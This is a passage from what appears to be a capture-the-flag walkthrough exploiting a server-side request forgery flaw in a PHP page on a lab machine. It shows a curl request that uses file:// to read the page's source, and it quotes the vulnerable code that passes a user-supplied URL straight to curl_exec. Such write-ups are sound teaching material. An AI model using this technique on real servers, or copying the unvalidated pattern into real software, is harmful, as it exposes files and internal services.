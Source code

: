 ![evidence](./static/11-ssrf-file.png)

And I identify the users `snape`, `hermoine`, and `ron`. When I use the path traversal to check how the requests are made:
```shell
$ curl "http://192.168.2.25/internalResourceFeTcher.php?url=
> file:///var/www/html/internalResourceFeTcher.php"
```
Then I can see on line `37`:
```php
37 $url=$_GET['url'];
```
And the `URL` of the form is stored in the variable `$url`. When I check from lines `51` to `58`:
```php
51 $ch = curl_init();
52 curl_setopt($ch, CURLOPT_URL, $url);
53 curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, 0);
54 curl_setopt($ch, CURLOPT_TIMEOUT, 10);
55 curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
56
57 $exec = curl_exec($ch);
58 echo $exec;
```
Then I can see that the `curl_exec` function makes the `GET` request, when I google `curl_exec PHP RCE`, then I find [php curl_exec url is controlled by user](https://www.acunetix.com/vulnerabilities/web/php-curl_exec-url-is-controlled-by-user/):

